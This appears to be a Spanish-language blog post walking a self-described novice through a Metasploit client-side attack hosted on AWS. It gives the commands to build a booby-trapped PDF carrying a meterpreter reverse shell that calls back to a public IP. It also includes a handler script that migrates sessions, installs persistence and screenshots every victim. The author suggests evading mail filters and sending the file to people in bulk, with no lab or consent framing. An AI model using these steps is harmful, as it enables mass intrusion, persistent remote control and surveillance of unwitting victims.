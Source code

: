 ```yaml
---
layout: post
title: "metasploit - client side attack"
---
```


## {{ page.title }}
###### {{ page.date | date_to_string }}

**[![](/assets/img/60.png)](/assets/img/60.png)**

#### Introducción

Entonces, estaba el otro día hablando sobre temas de seguridad y salíeron a mención metasploit y set, dos herramientas que facilitan el trabajo en el area, no conozco a persona interesada por el tema que no lo conozca. Hace algunos años habia estado interesado en mfs, así que pude notar la gran mejoria respecto a aquellos tiempos. Es increible, me siento como un chico de pelicula de policias cuando lo ejecuto.

Después de la charla, me quede con la espinita de que tan fácil sería montar algo usable por un total noob en el tema (me), y nada, al parecer hemos llegado a un punto donde cualquier persona puede montar una plataforma relativamente robusta para lanzar ataques. MMM, bueno, eso es desde hace tiempo, pero ahora, junto ahora (y justo como lo he experimentado) es muy fácil y no se requieren de mucha preparación. Tenemos servicios, como AWS, Linode que también ayudan a superar las limitaciones de las configuraciones NAT y el uptime. En mi opinión es una de las mejoras epocas para involucrarse en la seguridad informática.

Sin más preambulos, dejaré unos apuntes...  daré por sentado que se tiene una cuenta en AWS, es todo lo que realmente necesitaremos...

### Instalación

Lo primero que se tendrá que hacer, será instalar msf en la máquina virtual de AWS, en mi caso, he instalado ubuntu 12.04.., también es buena idea, abrir los puertos, 80, 443 y 22, por defecto solo abrira el 22, así que tendran que configurar el perfil de seguridad. Paquetes básicos

<pre class="sh_sh">
$ sudo apt-get install build-essential libreadline-dev libssl-dev libpq5 libpq-dev \
  libreadline5 libsqlite3-dev libpcap-dev subversion openjdk-7-jre git-core \
  autoconf postgresql pgadmin3 curl zlib1g-dev libxml2-dev libxslt1-dev vncviewer \
  libyaml-dev ruby1.9.3 nmap
</pre>

Gemas necesarias:

<pre class="sh_sh">
$ sudo gem install wirble msgpack sqlite3 pg activerecord nokogiri
</pre>

Metasploit

<pre class="sh_sh">
$ git clone https://github.com/rapid7/metasploit-framework mfs
</pre>

Esto creará una carpeta llamada 'mfs' con el framework dentro, ahora será momento de obtener privilegios de super usuario (para poder poner a escuchar handlers en cualquier puerto):

<pre class="sh_sh">
$ sudo su
# 
</pre>

- http://www.darkoperator.com/installing-metasploit-in-ubuntu/
- https://github.com/rapid7/metasploit-framework/wiki/Metasploit-Development-Environment


### Payload

Una vez instalado, hay que crear un archivo que pueda ser enviado, que explote una vulnerabilidad en el equipo remoto y que nos devuelva el control del mismo, con metasploit es muy fácil:

<pre class="sh_sh">
# cd mfs/
mfs # ./msfconsole
...
msf > use exploit/windows/fileformat/adobe_cooltype_sing
msf exploit(adobe_utilprintf) > set FILENAME ganaste.pdf
FILENAME => ganaste.pdf
msf exploit(adobe_utilprintf) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(adobe_utilprintf) > set LHOST 107.21.182.228
LHOST => 107.21.182.228
msf exploit(adobe_utilprintf) > set LPORT 443 (https)
msf exploit(adobe_utilprintf) > exploit

[*] Handler binding to LHOST 0.0.0.0
[*] Started reverse handler
[*] Creating 'ganaste.pdf' file...
[*] Generated output file /root/ganaste.pdf
[*] Exploit completed, but no session was created.
</pre>

Por defecto, el archivo que genera mfs no será util, gmail, hotmail, yahoo, no permitiran enviarlo, al detectarlo como un archivo malicioso, así que aquí tendrán que usar su imaginación para hacerlo indetectable.., lamentablemente no puedo ayudar con esa parte.., si lo hiciera y alguien más siguiera estos pasos seguramente dentro de poco, el método que utilice dejaría de ser util.., pero adelanto que no es demasiado complicado, solo es cuestión de buscar un poco y mfs ayuda mucho.., un par de horas de pruebas-errores deberian bastarles para encontrar un método que funcione.

- http://www.offensive-security.com/metasploit-unleashed/Client_Side_Attacks

### Handler (servidor)

Listo, una vez que tengan un archivo indetectable, pueden enviarlo masivamente o selectivamente a las personas que lo deseen y a pulse de raton, tendran sesiones en cada una de esas computadoras (siempre y cuando hayan sido afectadas por la vulnerabilidad en cuestión). Para poder usar las sesiones más de una vez, es una buena idea migrar la sesión a un proceso más estable (en lugar de adobe, que en la máquina atacada se vera congelado y después mostrará una pantalla en blanco, pantalla que la mayoría de los usuarios cerraran, terminando la conexión) y luego configurarlo para que inicie con el sistema.

<pre class="sh_sh">
# cat /root/migrate_persistence.rc
run post/windows/manage/migrate
run persistence -U -i 5 -p 443 -r 107.21.182.22 //o la ip de la máquina donde tengan mfs
</pre>

<pre class="sh_sh">
# cat /root/autoruncommands.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 443
set LHOST 107.21.182.22
set AutoRunScript multi_console_command -rc /root/migrate_persistence.rc
set ExitOnSession false
exploit -j

-ruby-
  sleep(1)
  print_status("waiting on an incoming session...")
  while (true)
    framework.sessions.each_pair do |sid,s|
    thost = s.session_host

    if s.ext.aliases['stdapi']
      print_status("Screenshotting session #{sid} #{thost}...")
      s.console.run_single("screenshot -p #{thost}_#{sid}.jpg -v false -q 85")
    else
      print_status("session #{sid} #{thost} active, but not yet configurated")
    end
  end
end
-/ruby-
</pre>

<pre class="sh_sh">
# ./msfconsole -r /root/autoruncommands.rc
</pre>

- http://johnbabio.wordpress.com/tag/autorunscript/

Listop, podemos empezar a divertirnos

- http://www.offensive-security.com/metasploit-unleashed/Metasploit_Meterpreter_Basics
- http://www.offensive-security.com/metasploit-unleashed/Windows_Post_Gather_Modules
- http://cyruslab.wordpress.com/2012/03/09/metasploit-post-exploitation-with-meterpreter-2/
- http://rajhackingarticles.blogspot.mx/2012/11/best-of-metasploit-meterpreter-script.html
